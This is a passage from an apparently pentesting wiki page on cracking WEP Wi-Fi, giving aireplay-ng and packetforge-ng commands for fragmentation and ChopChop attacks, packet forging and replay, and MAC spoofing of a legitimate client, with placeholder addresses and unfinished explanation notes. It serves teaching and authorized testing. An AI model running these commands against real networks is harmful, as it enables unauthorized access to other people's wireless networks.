 ```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](<./assets/Fragmentation attack packet creation.png>){.rawimg}

//TO EXPLAIN packet replay

```bash
aireplay-ng --interactive -F -r crafted-packet $wlan_interface
```

![](<./assets/Fragmentation attack packet replay.png>){.rawimg}

### ChopChop

> [!TIP]
> Tips and requirements
> 
> * An associated state is needed. Testers can either run a [fake authentication attack](#fake-authentication) or spoof a legitimate client's MAC address with the `-h` option on `aireplay-ng`.
> * Connected clients are not needed in this attack (except if the testers wants one's MAC address to meet the associated state requirement).
> 
> This attack is really useful when no clients are connected to the target access point and when the [fragmentation attack](#fragmentation) fails.

//TO EXPLAIN chopchop /!\ the -h option needs the attacker's MAC address (or spoofed legitimated client's)

```bash
aireplay-ng --chopchop -F -b 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' $wlan_interface
```

![](<./assets/Chopchop attack.png>){.rawimg}

//TO EXPLAIN packet creation

```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](<./assets/Chopchop attack packet creation.png>){.rawimg}

packet replay

```bash
aireplay-ng --interactive -F -r crafted-packet $wlan_interface
```

![](<./assets/Chopchop attack packet replay.png>){.rawimg}

> [!SUCCESS]
> In previous tests, combining a fragmentation attack with a chopchop attack resulted in high a number of received IVs per second (`#/s` column in `airodump-ng`) around 250. 

## Resources

[https://lesperance.io/](https://lesperance.io/)

[https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus](https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus)





